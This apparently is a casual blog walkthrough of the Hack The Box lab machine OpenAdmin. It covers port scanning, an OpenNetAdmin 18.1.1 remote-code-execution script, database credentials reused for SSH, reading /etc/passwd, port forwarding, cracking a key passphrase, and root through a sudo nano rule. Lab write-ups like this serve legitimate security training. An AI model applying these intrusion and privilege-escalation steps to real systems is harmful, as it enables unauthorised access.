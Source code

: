 ```yaml
---
featured_image: "/posts/Openadmin/openadmin.jpg"
title : HTB 16/20 OpenAdmin
published : true
date: 2021-04-25
author : PS
---
```

## Foothold
*nmap*
```bash
Starting Nmap 7.91 ( https://nmap.org ) at 2021-04-28 19:26 EEST
Nmap scan report for 10.10.10.171
Host is up (0.081s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 4b:98:df:85:d1:7e:f0:3d:da:48:cd:bc:92:00:b7:54 (RSA)
|   256 dc:eb:3d:c9:44:d1:18:b1:22:b4:cf:de:bd:6c:7a:54 (ECDSA)
|_  256 dc:ad:ca:3c:11:31:5b:6f:e6:a4:89:34:7c:9b:e5:50 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 11.30 seconds
```
![img](Pasted image 20210428192756.png)
Lulzzzzbuster Timeeeeeeeeeeeeeeeeee
```bash
[+] final settings

    > url:          http://10.10.10.171:80/
    > http method:  GET
    > http excodes: 400 404 500 501 502 503 
    > follow redir: 0
    > ua:           Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:72.0) Gecko/20100101 Firefox/72.0
    > con timeout:  10s
    > req timeout:  30s
    > threads:      30
    > con cache:    30
    > wordlist:     /usr/share/seclists/Discovery/Web-Content/common.txt
    > dns server:   1.1.1.1,8.8.8.8,208.67.222.222
    > logfile:      stderr
    > smart mode:   0

[+] game started

[+] code   size   real size   resp time   url

[*] 403 |  277B |      277B | 0.403072s | http://10.10.10.171:80/.htaccess
[*] 403 |  277B |      277B | 0.403872s | http://10.10.10.171:80/.htpasswd
[*] 403 |  277B |      277B | 0.470007s | http://10.10.10.171:80/.hta
[*] 301 |  314B |      314B | 0.170200s | http://10.10.10.171:80/artwork
[*] 200 |   11K |    10918B | 0.158344s | http://10.10.10.171:80/index.html
[*] 301 |  312B |      312B | 0.160989s | http://10.10.10.171:80/music
[*] 403 |  277B |      277B | 0.161605s | http://10.10.10.171:80/server-status
[*] 200 |   11K |    10918B | 1.497938s | http://10.10.10.171:80/

[+] game over
```
![img](Pasted image 20210428193228.png)
Clicking on the login button :
![img](Pasted image 20210428193246.png)
lolz :))  
![img](Pasted image 20210428193339.png)
Oh damn :))  
So vuln :))  
![img](Pasted image 20210428193537.png)
:)) sad  
```bash
>>> python3 ona-rce.py exploit http://10.10.10.171/ona/
[*] OpenNetAdmin 18.1.1 - Remote Code Execution
[+] Connecting !
[+] Connected Successfully!
sh$ 
```
## User
In config/database_settings.inc.php we find some creds :
```bash
<?php

$ona_contexts=array (
  'DEFAULT' =>
  array (
    'databases' =>
    array (
      0 =>
      array (
        'db_type' => 'mysqli',
        'db_host' => 'localhost',
        'db_login' => 'ona_sys',
        'db_passwd' => 'n1nj4W4rri0R!',
        'db_database' => 'ona_default',
        'db_debug' => false,
      ),
    ),
    'description' => 'Default data context',
    'context_color' => '#D3DBFF',
  ),
);
?>
```
PS only found a password but no user  
If we enumerate users using cat /etc/passwd we get 3 users root jimmy joanna  
After I tried each user, jimmy was a match :D
```bash
>>> ssh jimmy@10.10.10.171
The authenticity of host '10.10.10.171 (10.10.10.171)' can't be established.
ECDSA key fingerprint is SHA256:.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.10.171' (ECDSA) to the list of known hosts.
jimmy@10.10.10.171's password: 
Welcome to Ubuntu 18.04.3 LTS (GNU/Linux 4.15.0-70-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Wed Apr 28 16:43:10 UTC 2021

  System load:  0.0               Processes:             113
  Usage of /:   49.3% of 7.81GB   Users logged in:       0
  Memory usage: 18%               IP address for ens160: 10.10.10.171
  Swap usage:   0%


 * Canonical Livepatch is available for installation.
   - Reduce system reboots and improve kernel security. Activate at:
     https://ubuntu.com/livepatch

41 packages can be updated.
12 updates are security updates.


Last login: Thu Jan  2 20:50:03 2020 from 10.10.14.3
```
Well now PS needs to escalate to joanna sooo :
```bash
jimmy@openadmin:~$ ps -eaf --forest
UID        PID  PPID  C STIME TTY          TIME CMD
root         2     0  0 16:25 ?        00:00:00 [kthreadd]
root         4     2  0 16:25 ?        00:00:00  \_ [kworker/0:0H]
root         6     2  0 16:25 ?        00:00:00  \_ [mm_percpu_wq]
root         7     2  0 16:25 ?        00:00:00  \_ [ksoftirqd/0]
root         8     2  0 16:25 ?        00:00:00  \_ [rcu_sched]
root         9     2  0 16:25 ?        00:00:00  \_ [rcu_bh]
root        10     2  0 16:25 ?        00:00:00  \_ [migration/0]
root        11     2  0 16:25 ?        00:00:00  \_ [watchdog/0]
root        12     2  0 16:25 ?        00:00:00  \_ [cpuhp/0]
(part cut for sizee)
www-data  1392  1040  0 16:27 ?        00:00:00  \_ /usr/sbin/apache2 -k start
www-data  1786  1040  0 16:29 ?        00:00:00  \_ /usr/sbin/apache2 -k start
www-data  1899  1040  0 16:29 ?        00:00:00  \_ /usr/sbin/apache2 -k start
www-data  1900  1040  0 16:29 ?        00:00:00  \_ /usr/sbin/apache2 -k start
www-data  1903  1040  0 16:29 ?        00:00:00  \_ /usr/sbin/apache2 -k start
www-data  1906  1040  0 16:29 ?        00:00:00  \_ /usr/sbin/apache2 -k start
www-data  5456  1040  0 16:29 ?        00:00:00  \_ /usr/sbin/apache2 -k start
www-data  6130  1040  0 16:29 ?        00:00:00  \_ /usr/sbin/apache2 -k start
www-data  6162  1040  0 16:30 ?        00:00:00  \_ /usr/sbin/apache2 -k start
www-data  6209  1040  0 16:32 ?        00:00:00  \_ /usr/sbin/apache2 -k start
jimmy     6442     1  0 16:43 ?        00:00:00 /lib/systemd/systemd --user
jimmy     6444  6442  0 16:43 ?        00:00:00  \_ (sd-pam)
```
Always run  ps -eaf --forest because it may reveal something interesting,  
But after running  netstat -nalp
```bash
(Not all processes could be identified, non-owned process info
 will not be shown, you would have to be root to see it all.)
Active Internet connections (servers and established)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name    
tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:52846         0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -                   
tcp        0    360 10.10.10.171:22         10.10.14.7:55670        ESTABLISHED -                   
tcp6       0      0 :::80                   :::*                    LISTEN      -                   
tcp6       0      0 :::22                   :::*                    LISTEN      -                   
tcp6       0      0 10.10.10.171:80         10.10.14.7:42586        TIME_WAIT   -                   
udp        0      0 127.0.0.53:53           0.0.0.0:*                           -     
```
I see something on the  52846 port  
Run ```bash ssh jimmy@10.10.10.171 -L 80:127.0.0.1:52846```  
To listen for the port on your pc  
![img](Pasted image 20210428195234.png)  
Since we are talking about web apps , a good practice is to double check /var/www/ :
```bash
jimmy@openadmin:~$ cd /var/www
jimmy@openadmin:/var/www$ ls
html  internal  ona
jimmy@openadmin:/var/www$ cd internal/
jimmy@openadmin:/var/www/internal$ ls
index.php  logout.php  main.php
jimmy@openadmin:/var/www/internal$ 
```
Index.php reveals the password :
```bash
            $msg = '';
            if (isset($_POST['login'])
            && !empty($_POST['username'])
            && !empty($_POST['password']))
            {
              if ($_POST['username'] == 'jimmy'
              && hash('sha512',$_POST['password']) == '00e302ccdcf1c60b8ad50ea50cf72b939705f49f40f0dc658801b4680b7d758eebdc2e9f9ba8ba3ef8a8bb9a796d34ba2e856838ee9bdde852b8ec3b3a0523b1')
              {
                  $_SESSION['username'] = 'jimmy';
                  header("Location: /main.php");
              } else {
                  $msg = 'Wrong username or password.';
```
that sha512 -> Revealed
So let's login
![img](Pasted image 20210428195713.png)
Hmm we need to decrypt the key now  
PS cracks it and get the password  bloodninjas  
Let's ssh with it  
and get user
## Root 
run sudo -l 
```bash 
joanna@openadmin:~$ sudo -l
    (ALL) NOPASSWD: /bin/nano /opt/priv
```
GTFObins time :
https://gtfobins.github.io/gtfobins/nano/
Annnnd run it and get root
PS out !
